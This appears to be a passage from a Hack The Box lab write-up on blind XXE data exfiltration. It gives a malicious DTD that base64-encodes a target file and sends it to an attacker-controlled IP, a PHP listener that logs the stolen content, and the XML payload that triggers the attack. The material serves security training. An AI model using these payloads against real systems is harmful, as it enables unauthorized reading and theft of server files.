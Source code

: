 ![XXE Error Based Result](/images/htb/web-attacks/xxe_error_based_result.png)
<hr/>

#### Blind Data Exfiltration - Exercise

##### Manual:

1. Create the dtd file to exfiltrate the flag:
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/{Flag_file.php}">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://{YOUR_IP_ADDRESS}:8000/?content=%file;'>">
```

2. Create the php file to display the request's content:
```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

3. Start the PHP server:
```
php -S 0.0.0.0:8000
```

4. Submit the payload to trigger the Blind Data Exfiltration:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://{YOUR_IP_ADDRESS}:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

<hr/>
